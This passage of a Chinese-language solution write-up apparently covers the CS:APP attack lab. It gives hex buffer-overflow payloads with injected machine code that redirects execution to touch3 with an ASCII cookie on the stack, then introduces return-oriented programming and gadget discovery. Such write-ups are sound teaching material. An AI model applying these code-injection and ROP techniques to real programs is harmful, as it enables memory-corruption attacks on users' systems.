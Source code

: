 所以最终输入结果如下
```c
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

### level3实战

首先获取touch3地址：0x4019c9
将我们的cookie（0x55daf469）转化为asc2码表示：35 35 64 61 66 34 36 39
同level3的思路，我们直接把字串放到test的栈帧中，获取到test的rsp地址：0x55676db8（之前的rsp+0x40）
所以生成我们的注入代码即对应指令串
```c
    movq    $0x55676db8, %rdi
    pushq   $0x4019c9
    ret
    // 翻译后的指令为：
    0:	48 c7 c7 b8 6d 67 55 	mov    $0x55676db8,%rdi
    7:	68 c9 19 40 00       	pushq  $0x4019c9
    c:	c3                   	ret
```
所以最终输入结果如下：
```c
48 c7 c7 b8 6d 67 55 68
c9 19 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 6d 67 55 00 00 00 00
35 35 64 61 66 34 36 39
```

## Part2: Return-Oriented Programming

在进入level4之前，我们先认识一下Return-Oriented Programming（ROP）
一般程序都有开启**栈随机化**与栈保护（不能执行栈内代码），因此之前的方法不再适用。
所以我们便需要转换思路，利用现有程序中的代码。
例如，我们有下列代码：
```c
void setval_210(unsigned *p)
{
*p = 3347663060U;
}
//进行编译……
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```
注意到**48 89 c7**为 movq %rax, %rdi.
因此，如果我们从400f18开始执行的话，相当于执行了
```c
movq %rax, %rdi
retq
```
这种可以利用的代码称为**gadget**，利用gadgets我们可以实现对程序的攻击
